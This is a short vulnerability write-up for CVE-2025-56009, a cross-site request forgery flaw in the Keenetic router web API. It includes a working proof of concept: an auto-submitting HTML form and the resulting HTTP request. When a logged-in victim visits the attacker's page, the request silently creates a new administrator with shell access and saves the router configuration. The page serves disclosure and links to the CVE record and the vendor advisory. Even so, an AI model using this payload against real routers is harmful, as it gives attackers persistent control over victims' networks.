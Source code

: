 ## CVE-2025-56009

### Some notes

Well, this is a simple CSRF vulnerability. There were no any CSRF protections (and `Content-Type` was not validated), so the main challenge was keeping the request body valid JSON while the `Content-Type` was `text/plain`. Since this is the only API route the router sends requests to, it was very easy to find this vulnerability.

### Exploitation

Exploitation for this vulnerability is standart: we need to create an auto-submitting form on our site pointing to the vulnerable endpoint:

```html
<html>
    <body>
        <form
            action="https://XXX.keenetic.name/rci/"
            method="POST"
            enctype="text/plain"
        >
            <input
                type="hidden"
                name='&#91;&#123;"user"&#58;&#123;"name"&#58;"test"&#44;"tag"&#58;&#91;&#123;"tag"&#58;"cli"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"http"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"readonly"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"ipsec&#45;l2tp"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"ipsec&#45;xauth"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"http&#45;proxy"&#44;"no"&#58;false&#125;&#44;&#123;"tag"&#58;"opt"&#44;"no"&#58;false&#125;&#93;&#44;"password"&#58;"123"&#125;&#125;&#44;&#123;"system"&#58;&#123;"configuration"&#58;&#123;"save"&#58;&#123;&#125;&#125;&#125;,"1'
                value='1":1}&#93;'
            />
            <input type="submit" value="Submit request" />
        </form>
        <script>
            history.pushState("", "", "/");
            document.forms[0].submit();
        </script>
    </body>
</html>
```

When a victim visits the page, the browser submits the form and sends the POST request to `/rci/` endpoint, adding a new admin user (which also have access to remote shell):

```
POST /rci/ HTTP/1.1
Host: XXX.keenetic.name
Cookie: <cookie>
Content-Length: 305
...
Content-Type: text/plain
...

[{"user":{"name":"test","tag":[{"tag":"cli","no":false},{"tag":"http","no":false},{"tag":"readonly","no":false},{"tag":"ipsec-l2tp","no":false},{"tag":"ipsec-xauth","no":false},{"tag":"http-proxy","no":false},{"tag":"opt","no":false}],"password":"test_pass"}},{"system":{"configuration":{"save":{}}},"1=1":1}]
```

Of course, we need to know the admin panel URl (may be local, `192.168.0.1`, or global, `XXX.keenetic.name`).

Note the `{"1=1":1}` trick here: it preserves both valid JSON structure and the POST body structure simultaneously while using `text/plain`.

### Additional

As I said earlier, targets like routers make good targets for searching of web vulrenabilities: they're often overlooked, but flaws in them can have an impact, as in this case.

### Links

-   CVE record: https://www.cve.org/CVERecord?id=CVE-2025-56009
-   Keenetic security advisory: https://keenetic.com/global/security#october-2025-web-api-vulnerabilities
